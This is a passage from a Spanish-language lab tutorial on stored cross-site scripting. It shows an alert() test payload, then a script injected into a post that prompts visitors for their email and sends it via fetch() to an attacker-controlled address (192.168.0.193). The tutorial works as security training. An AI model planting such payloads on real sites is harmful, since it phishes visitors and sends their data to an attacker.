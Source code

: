 ## Identificando la vulnerabilidad

Una de las formas para identificar si una web **es vulnerable a XSS** es probando en un panel en el que podamos tener una "entrada", inyectar algún comando **Javascript**. Probemos en el laboratorio creando previamente.

 La etiqueta <script>alert("XSS")</script> pertenece al lenguaje de marcado HTML (Hypertext Markup Language), pero específicamente **esta etiqueta se utiliza para incrustar código JavaScript dentro de una página web**. En este ejemplo particular, el código JavaScript ``alert("XSS")`` muestra **una ventana emergente (alerta) con el texto "XSS"** cuando la página se carga o ejecuta ese código.
 
![[XSS 1.png]]

-----

Al darle a GO! lo que vamos a hacer es **publicar en la web un posteo con los datos que definimos** previamente, una vez que alguien abra el posteo, la etiqueta HTML **ejecutara el código Javascript y nos aparecerá la alerta** que definimos.

![[XSS 2.png]]

Si esta etiqueta nos aparece significa que **la web es vulnerable a XSS** (Lo cual ya sería reportable, solo que no se ha derivado a algo mas grave)
![[XSS 3.png]]

----

## Diferentes métodos de explotación

### Recaudar correos electrónicos

Algo que podemos hacer a la hora de descubrir que la web es vulnerable a XSS es **montar un panel falso** que le indique a nuestra victima **que coloque un correo** para poder visualizar el post que hemos creado, pero lo que la persona no va a saber es que **nosotros vamos a estar recibiendo sus credenciales** estando en escucha por el puerto 80 (HTTP).

```javascript
<script>
  var email = prompt("Por favor, introduce tu correo electrónico para visualizar el post", "example@example.com");

  if (email == null || email == ""){
    alert("Es necesario introducir un correo válido para visualizar el post");
  } else {
    fetch("http://192.168.0.193/?email=" + email);
  }
</script>
```

![[XSS 4.png]]

Una vez se abra el posteo saldrá la ventana emergente que especificamos de esta manera
